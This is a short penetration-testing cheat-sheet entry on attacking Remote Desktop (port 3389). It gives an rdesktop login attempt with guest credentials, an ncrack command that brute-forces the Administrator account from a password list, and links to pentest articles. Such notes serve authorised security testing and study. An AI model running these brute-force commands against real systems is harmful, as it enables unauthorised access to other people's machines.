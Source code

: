 ### Port 3389 - Remote desktop

Test logging in to see what OS is running

```
rdesktop -u guest -p guest INSERTIPADDRESS -g 94%

# Brute force
ncrack -vv --user Administrator -P /root/oscp/passwords.txt rdp://INSERTIPADDRESS
```

https://www.hackingarticles.in/penetration-testing-remote-desktop-port-3389/

https://pentestlab.blog/tag/rdp/

https://www.hackingloops.com/penetration-testing-windows-7-machine-for-remote-desktop-vulnerability/
